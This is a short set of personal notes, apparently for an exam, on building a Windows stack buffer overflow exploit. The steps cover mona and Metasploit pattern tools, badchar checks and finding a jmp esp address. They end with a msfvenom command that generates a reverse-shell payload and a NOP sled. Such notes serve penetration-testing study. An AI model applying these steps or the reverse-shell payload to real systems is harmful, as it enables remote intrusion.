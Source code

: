 # BOF Notes

1. Set working folder: `!mona config -set workingfolder c:\mona\%p`
2. Create cyclic pattern: `msf-pattern_create -l <crashbytes+400>`
3. Find the cyclic EIP location (to get the padding length)
	1. `!mona findmsp -distance <pattern_create value>`
	OR
	2. `msf-pattern_offset -l <pattern_create value> -q <EIP value>`
4. Identify badchars:
	1. Create the badchar array: `!mona bytearray -b "\x00"`
	2. Identify chars:`!mona compare -f c:\mona\path\bytearray.bin -a <ESP address>`
	3. Repeat bytearray and compare until all badchars are gone. Remember that badchars can affect the next byte as well, or even the entire string.
5. After finding the badchar, find a working `jmp esp` location:
`!mona jmp -r esp -cpb "<bad chars">`
6. Create the payload: 
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=... LPORT=... EXITFUNC=thread -b "<bad chars>" -f py
```
7. Add the NOP sled (`"\x90"*16`)

Note: while doing the initial test, I might want to use -p windows/exec CMD=calc.exe instead to verify the BOF itself works fine (on the test machine) before I create the revshell for the exam box.
